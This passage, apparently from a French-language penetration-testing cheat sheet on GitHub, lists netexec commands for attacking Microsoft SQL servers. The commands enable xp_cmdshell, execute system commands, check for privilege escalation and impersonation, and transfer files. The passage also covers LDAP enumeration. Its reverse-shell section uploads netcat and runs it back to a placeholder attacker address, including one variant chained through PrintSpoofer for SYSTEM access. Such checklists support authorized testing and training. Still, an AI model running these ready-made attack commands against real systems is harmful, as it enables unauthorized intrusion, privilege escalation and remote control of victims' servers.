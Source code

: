 ### 🔓 Privilèges & Exécution de commandes

```bash
# Activer xp_cmdshell
netexec mssql $IP -u '$DOMAIN\$USER' -p '$PASSWORD' --enable-xp-cmdshell

# Exécuter une commande via xp_cmdshell
netexec mssql $IP -u '$DOMAIN\$USER' -p '$PASSWORD' -x "whoami /all"

# Vérifier les élévations de privilèges possibles
netexec mssql $IP -u $USER -p '$PASSWORD' -M mssql_priv

# Vérifier les permissions d'usurpation d'identité (impersonation)
netexec mssql $IP -u $USER -p '$PASSWORD' -M mssql_priv -o ACTION=privesc
```

### 📂 Transfert de fichiers

```bash
# Envoyer un fichier vers la cible
nxc mssql $IP -u $USER -p '$PASSWORD' --put-file /tmp/local_file C:\\Windows\\Temp\\remote_file.txt

# Télécharger un fichier depuis la cible
nxc mssql $IP -u $USER -p '$PASSWORD' --get-file C:\\Windows\\Temp\\remote_file.txt /tmp/local_file
```

### 🚀 Reverse Shell

```bash
# Déposer netcat sur la cible
nxc mssql $IP -u $USER -p '$PASSWORD' --put-file nc.exe

# Lancer un reverse shell via netcat
nxc mssql $IP -u $USER -p '$PASSWORD' -x "C:\Windows\Temp\nc.exe $ATTACKER_IP 1234 -e cmd"

# Si whoami montre un token d'impersonation -> exploit PrintSpoofer
nxc mssql $IP -u $USER -p '$PASSWORD' -x 'C:\Windows\Temp\PrintSpoofer64.exe -c "C:\Windows\Temp\nc.exe $ATTACKER_IP 1234 -e cmd"'

# Reverse Shell sur Active Directory (Base64 PowerShell)
nxc mssql $IP -u '' -p '' -x '<PAYLOAD REVERSE SHELL BASE64 HERE>'
```

## **LDAP Enumeration & Exploitation Checklist**

### 🔍 **Énumération & Connexion**

```bash
# Tester l'accès à LDAP avec un utilisateur et un mot de passe
nxc ldap $IP -u '$USER' -p '$PASSWORD'

# Lister les utilisateurs LDAP
nxc ldap $IP -u '$USER' -p '$PASSWORD' --users

# Lister les groupes LDAP
nxc ldap $IP -u '$USER' -p '$PASSWORD' --groups

# Lister les GPOs LDAP
nxc ldap $IP -u '$USER' -p '$PASSWORD' --gpos

# Rechercher tous les objets avec un filtre générique
ldapsearch -v -x -b "DC=example,DC=com" -H "ldap://$IP" "(objectclass=*)"

# Rechercher des informations sur les utilisateurs spécifiques (par exemple, SAMAccountName)
ldapsearch -v -x -b "DC=example,DC=com" -H "ldap://$IP" "(objectclass=*)" | grep samaccountname
```